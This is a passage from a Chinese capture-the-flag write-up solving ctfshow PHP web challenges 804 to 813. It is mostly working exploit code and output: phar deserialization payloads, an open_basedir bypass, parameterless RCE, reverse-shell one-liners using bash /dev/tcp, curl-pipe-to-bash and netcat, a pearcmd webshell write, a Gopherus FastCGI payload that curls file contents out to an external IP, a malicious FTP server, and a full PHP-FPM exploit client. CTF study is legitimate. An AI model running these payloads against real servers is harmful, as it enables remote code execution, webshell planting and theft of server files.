r = requests.post(url, data=data)

if "ctfshow{" in r.text:
    print(r.text)

```

搞忘了在php中单双引号对转义字符的处理问题了，导致我上面php生成的phar一直打不通

## web804

### #phar反序列化

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


error_reporting(0);
highlight_file(__FILE__);

class hacker{
    public $code;
    public function __destruct(){
        eval($this->code);
    }
}

$file = $_POST['file'];
$content = $_POST['content'];

if(isset($content) && !preg_match('/php|data|ftp/i',$file)){
    if(file_exists($file)){
        unlink($file);
    }else{
        file_put_contents($file,$content);
    }
}


```

这个就很简单了，看到一个unlink函数，是可以触发phar反序列化的，所以依旧是生成phar文件

```php
<?php
class hacker{
    public $code;
}
@unlink("b.phar");
$phar = new Phar("b.phar");
$phar -> startBuffering();
$phar -> setStub("<?php __HALT_COMPILER();?>");
$obj = new hacker();
$obj -> code = "system('cat f*');";
$phar -> setMetadata($obj);
$phar -> addFromString("b.txt","111");
$phar -> stopBuffering();

```

触发phar反序列化

```php
import requests

url = "http://b951bd05-9409-4b29-8c5d-ee837513d5ca.challenge.ctf.show/"
file = {
    'file': '/tmp/b.phar',
    'content': open('b.phar', 'rb').read()
}
data = {
    'file': 'phar:///tmp/b.phar',
    'content': 'test',
}
requests.post(url, data=file)
r = requests.post(url, data=data)
print(r.text)

```

## web805

### #open_basedir绕过

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


error_reporting(0);
highlight_file(__FILE__);

eval($_POST[1]);
```

open_basedir 是 PHP 的一个安全配置指令，由于 open_basedir 限制 PHP 脚本只能访问特定的目录。当前配置只允许访问 /var/www/html/ 目录及其子目录，但不允许访问其他目录。

读目录的话可以用glob协议去读

```html
1=$a=new DirectoryIterator('glob:///*');foreach($a as $A){echo $A."<br>";};exit();
```

然后怎么去读文件呢？其实就是绕过open_basedir 了

### bypass open_basedir

通过chdir移动目录+ini_set配置open_basedir去进行绕过

```php
1=mkdir('111');chdir('111');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(readfile('/ctfshowflag'));
```

## web806

### #无参数RCE

```php
<?php

highlight_file(__FILE__);

if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
}
?>
```

无参数RCE

```php
?code=print_r(scandir(current(localeconv())));
```

不在当前目录下，但是根目录的poc不能生效，估计是有权限限制，可以用get_defined_vars去打eval

```php
GET:?code=var_dump(get_defined_vars());
POST:1=1
```



```php
?code=eval(array_pop(next(get_defined_vars())));
1=phpinfo();
```

这里的话因为get_defined_vars返回的是数组，而eval接收的是字符串，所以需要用一个函数将数组转化成字符串，用array_pop函数将数组的值弹出，返回的是字符串，所以可以打



## web807

### #反弹shell

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


error_reporting(0);
highlight_file(__FILE__);
$url = $_GET['url'];

$schema = substr($url,0,8);

if($schema==="https://"){
    shell_exec("curl $url");
}
```

反弹shell嘛，本地写一个sh文件

```sh
bash -i >& /dev/tcp/[ip]/[port] 0>&1
```

然后用curl去加载sh文件

```html
curl [ip]/[port].sh|bash
```

但是我这几天刚好vps坏掉了，配不了ssl证书，所以这里的话这个方法做不了，只能换个做法

因为shell_exec中的命令是可以用分号去分割的，所以换成其他的反弹shell就行了

```html
?url=https://;nc [ip] [port] -e /bin/sh;
```

## web808

### #卡临时文件包含

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-20 11:01:02
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-20 22:18:10
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
$file = $_GET['file'];


if(isset($file) && !preg_match("/input|data|phar|log/i",$file)){
    include $file;
}else{
    show_source(__FILE__);
    print_r(scandir("/tmp"));
}

Array ( [0] => . [1] => .. )
```

卡临时文件包含的利用条件：

- php7.0版本
- 有包含的漏洞利用点
- /tmp目录可写

早期php为了处理文件上传的问题，由于php代码是可以动态执行的，但是php解释器并不知道哪个请求有文件而哪个请求没文件，假如php代码中有需要用到上传的文件而php先前没有接收上传的临时文件的话就会找不到该文件，但是如果选择接收上传的临时文件则会造成空间的占用和浪费，所以此时php选择了一种折中的方法，那就是**在代码执行期间保留临时文件的内容，在脚本执行结束后会自动清理掉临时文件**

简单来说：在代码执行期间能进行临时文件的上传，但是这些文件会在脚本运行结束后自动删除

此时可以有两种情况：

1. 在脚本运行结束之前就包含该文件，执行文件中的恶意代码生成后门
2. 在脚本结束之后不删除这个临时文件

第一个很好理解，就是一个条件竞争，这里主要是第二个

另外我们可以了解到一个点：**如果php代码执行错误或中途退出了，就不会删除临时文件**

但其实这个点是有例外的：Shutdown函数和析构函数，代码中显示 exit() 或者 die() 以后，仍会删除临时文件

然后我们利用**php7.0线程崩溃payload**

```bash
?file=php://filter/string.strip_tags/resource=/etc/passwd
```

使用`php://filter`的过滤器`strip_tags` , 可以让 php 执行的时候直接出现 Segment Fault , 这样 php 的垃圾回收机制就不会在继续执行 , 导致 POST 的文件会保存在系统的缓存目录下不会被清除而不想phpinfo那样上传的文件很快就会被删除，这样的情况下我们只需要知道其文件名就可以包含我们的恶意代码。

这里直接给出poc了

```python
import requests
import re

url = "http://aa95ecd7-3b12-4355-a1c0-4812ee50748c.challenge.ctf.show/"
file = {
    'file' : '<?php phpinfo();?>'
}

params = "?file=php://filter/string.strip_tags/resource=/etc/passwd"

requests.post(url=url+params,files=file)
r = requests.get(url)
#print(r.text)

tmp_dir=re.findall('=> (php.*?)\\n',r.text,re.S)[-1]
r = requests.get(url+"?file=/tmp/"+tmp_dir)
print(r.text)
```


后面正常写马就行了

## web809

### #pear文件包含

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-20 11:01:02
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-20 22:18:10
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
$file = $_GET['file'];


if(isset($file) && !preg_match("/input|data|phar|log|filter/i",$file)){
    include $file;
}else{
    show_source(__FILE__);
    if(isset($_GET['info'])){
        phpinfo();
    }
}


```

关于pearcmd.php的利用条件：register_argc_argv=On

传入info参数看一下这个配置



刚好复习一下pearcmd.php的文件包含到RCE

p牛的文章中


pear可以用来拉取远程的代码，我们在vps写个php木马文件shell.php

```php
<?php phpinfo();?>
```

然后利用pear去远程拉取

```bash
?file=/usr/local/lib/php/pearcmd.php&+install+-R+/tmp+http://vps/shell.php
```



这里提示是下载成功了，但是pear安装包在处理这个文件的时候并没有成功，不妨碍我们进行文件包含

看到这里返回了一个路径，就是shell.php的存放路径，直接文件包含



包含成功了，后面直接写个木马进行包含就行了

当然也是可以直接写文件的

```php
?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=eval($_POST['cmd']);?>+/tmp/1.txt
    
?file=/tmp/1.txt
cmd=phpinfo();
```

## web810

### #SSRF打PHP-FPM

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


error_reporting(0);
highlight_file(__FILE__);

$url=$_GET['url'];
$ch=curl_init();
curl_setopt($ch,CURLOPT_URL,$url);
curl_setopt($ch,CURLOPT_HEADER,1);
curl_setopt($ch,CURLOPT_RETURNTRANSFER,0);
curl_setopt($ch,CURLOPT_FOLLOWLOCATION,0);
$res=curl_exec($ch);
curl_close($ch);
```

很容易就看出来存在SSRF了，但是题目是说SSRF打PHP-FPM

可以先看这个文章了解一下：https://xz.aliyun.com/news/9043

其实简单来说就是因为PHP-FPM绑定在回环地址127.0.0.1上而不是公网ip，这时候就可以用ssrf去打PHP-FPM

用Gopherus进行攻击：https://github.com/tarunkant/Gopherus

```bash
E:\python2.7.18\Gopherus>python gopherus.py


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

usage: gopherus.py [-h] [--exploit EXPLOIT]

optional arguments:
  -h, --help         show this help message and exit
  --exploit EXPLOIT  mysql, postgresql, fastcgi, redis, smtp, zabbix,
                     pymemcache, rbmemcache, phpmemcache, dmpmemcache
None
```



需要传入一个目标服务器上已知存在的php文件，用来伪造中间件给PHP-FPM请求需要执行哪个脚本文件

`_`后内容再url编码一次并传入



## web811

### #file_put_contents打PHP-FPM

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


error_reporting(0);
highlight_file(__FILE__);


$file = $_GET['file'];
$content = $_GET['content'];

file_put_contents($file, $content);
```

参考文章：https://tttang.com/archive/1775/#toc_ftpfpmfastcgi

也是一样的，这道题没有写入文件的权限，尝试FTP打PHP-FPM

在vps上起一个恶意的ftp服务器

```python
# -*- coding: utf-8 -*-
# evil_ftp.py
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))        # ftp服务绑定23号端口
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n') #STOR / (2) 
# "127,0,0,1"PHP-FPM服务为受害者本地，"9000"为为PHP-FPM服务的端口号
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

然后用Gopherus进行攻击

```bash
E:\python2.7.18\Gopherus>python gopherus.py --exploit fastcgi


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

Give one file name which should be surely present in the server (prefer .php file)
if you don't know press ENTER we have default one:  index.php
Terminal command to run:  curl http://124.223.25.186:1337?flag=`cat /fl*`

Your gopher link is ready to do SSRF:

gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%00%F6%06%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH99%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%09SCRIPT_FILENAMEindex.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00c%04%00%3C%3Fphp%20system%28%27curl%20http%3A//124.223.25.186%3A1337%3Fflag%3D%60cat%20/fl%2A%60%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00

-----------Made-by-SpyD3r-----------
```

因为是打ftp攻击，所以我们只需要`_`后的内容

```bash
ftp://124.223.25.186:23&content=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%00%F6%06%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH99%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%09SCRIPT_FILENAMEindex.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00c%04%00%3C%3Fphp%20system%28%27curl%20http%3A//124.223.25.186%3A1337%3Fflag%3D%60cat%20/fl%2A%60%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

但是这里没复现出来，不知道为啥

## web812

### #**PHP-FPM未授权**

直接用p牛给的脚本

```python
import socket
import random
import argparse
import sys
from io import BytesIO

# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client

PY2 = True if sys.version_info.major == 2 else False


def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])

def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)

def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')

def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s


class FastCGIClient:
    """A Fast-CGI Client for Python"""

    # private
    __FCGI_VERSION = 1

    __FCGI_ROLE_RESPONDER = 1
    __FCGI_ROLE_AUTHORIZER = 2
    __FCGI_ROLE_FILTER = 3

    __FCGI_TYPE_BEGIN = 1
    __FCGI_TYPE_ABORT = 2
    __FCGI_TYPE_END = 3
    __FCGI_TYPE_PARAMS = 4
    __FCGI_TYPE_STDIN = 5
    __FCGI_TYPE_STDOUT = 6
    __FCGI_TYPE_STDERR = 7
    __FCGI_TYPE_DATA = 8
    __FCGI_TYPE_GETVALUES = 9
    __FCGI_TYPE_GETVALUES_RESULT = 10
    __FCGI_TYPE_UNKOWNTYPE = 11

    __FCGI_HEADER_SIZE = 8

    # request state
    FCGI_STATE_SEND = 1
    FCGI_STATE_ERROR = 2
    FCGI_STATE_SUCCESS = 3

    def __init__(self, host, port, timeout, keepalive):
        self.host = host
        self.port = port
        self.timeout = timeout
        if keepalive:
            self.keepalive = 1
        else:
            self.keepalive = 0
        self.sock = None
        self.requests = dict()

    def __connect(self):
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.settimeout(self.timeout)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        # if self.keepalive:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 1)
        # else:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 0)
        try:
            self.sock.connect((self.host, int(self.port)))
        except socket.error as msg:
            self.sock.close()
            self.sock = None
            print(repr(msg))
            return False
        return True

    def __encodeFastCGIRecord(self, fcgi_type, content, requestid):
        length = len(content)
        buf = bchr(FastCGIClient.__FCGI_VERSION) \
               + bchr(fcgi_type) \
               + bchr((requestid >> 8) & 0xFF) \
               + bchr(requestid & 0xFF) \
               + bchr((length >> 8) & 0xFF) \
               + bchr(length & 0xFF) \
               + bchr(0) \
               + bchr(0) \
               + content
        return buf

    def __encodeNameValueParams(self, name, value):
        nLen = len(name)
        vLen = len(value)
        record = b''
        if nLen < 128:
            record += bchr(nLen)
        else:
            record += bchr((nLen >> 24) | 0x80) \
                      + bchr((nLen >> 16) & 0xFF) \
                      + bchr((nLen >> 8) & 0xFF) \
                      + bchr(nLen & 0xFF)
        if vLen < 128:
            record += bchr(vLen)
        else:
            record += bchr((vLen >> 24) | 0x80) \
                      + bchr((vLen >> 16) & 0xFF) \
                      + bchr((vLen >> 8) & 0xFF) \
                      + bchr(vLen & 0xFF)
        return record + name + value

    def __decodeFastCGIHeader(self, stream):
        header = dict()
        header['version'] = bord(stream[0])
        header['type'] = bord(stream[1])
        header['requestId'] = (bord(stream[2]) << 8) + bord(stream[3])
        header['contentLength'] = (bord(stream[4]) << 8) + bord(stream[5])
        header['paddingLength'] = bord(stream[6])
        header['reserved'] = bord(stream[7])
        return header

    def __decodeFastCGIRecord(self, buffer):
        header = buffer.read(int(self.__FCGI_HEADER_SIZE))

        if not header:
            return False
        else:
            record = self.__decodeFastCGIHeader(header)
            record['content'] = b''
            
            if 'contentLength' in record.keys():
                contentLength = int(record['contentLength'])
                record['content'] += buffer.read(contentLength)
            if 'paddingLength' in record.keys():
                skiped = buffer.read(int(record['paddingLength']))
            return record

    def request(self, nameValuePairs={}, post=''):
        if not self.__connect():
            print('connect failure! please check your fasctcgi-server !!')
            return

        requestId = random.randint(1, (1 << 16) - 1)
        self.requests[requestId] = dict()
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)

        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)

        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)

        self.sock.send(request)
        self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        self.requests[requestId]['response'] = b''
        return self.__waitForResponse(requestId)

    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf

        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

    args = parser.parse_args()

    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    print(force_text(response))
```

然后我们进行攻击

```bash
E:\脚本和字典>python fpm.py -h
usage: fpm.py [-h] [-c CODE] [-p PORT] host file

Php-fpm code execution vulnerability client.

positional arguments:
  host                  Target host, such as 127.0.0.1
  file                  A php file absolute path, such as
                        /usr/local/lib/php/System.php

optional arguments:
  -h, --help            show this help message and exit
  -c CODE, --code CODE  What php code your want to execute
  -p PORT, --port PORT  FastCGI port

E:\脚本和字典>python fpm.py pwn.challenge.ctf.show -p 28254 /var/www/html/index.php -c "<?php system('id'); exit(); ?>"
X-Powered-By: PHP/7.3.22
Content-type: text/html; charset=UTF-8

uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data)


E:\脚本和字典>python fpm.py pwn.challenge.ctf.show -p 28254 /var/www/html/index.php -c "<?php system('whoami'); exit(); ?>"
X-Powered-By: PHP/7.3.22
Content-type: text/html; charset=UTF-8

www-data


E:\脚本和字典>python fpm.py pwn.challenge.ctf.show -p 28254 /var/www/html/index.php -c "<?php system('ls /'); exit(); ?>"
X-Powered-By: PHP/7.3.22
Content-type: text/html; charset=UTF-8

bin
dev
etc
flagfile
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var


E:\脚本和字典>python fpm.py pwn.challenge.ctf.show -p 28254 /var/www/html/index.php -c "<?php system('cat /flagfile'); exit(); ?>"
X-Powered-By: PHP/7.3.22
Content-type: text/html; charset=UTF-8

ctfshow{475d1f60-7486-4427-a3d6-76db3d655efd}
```

## web813

### #劫持mysqli
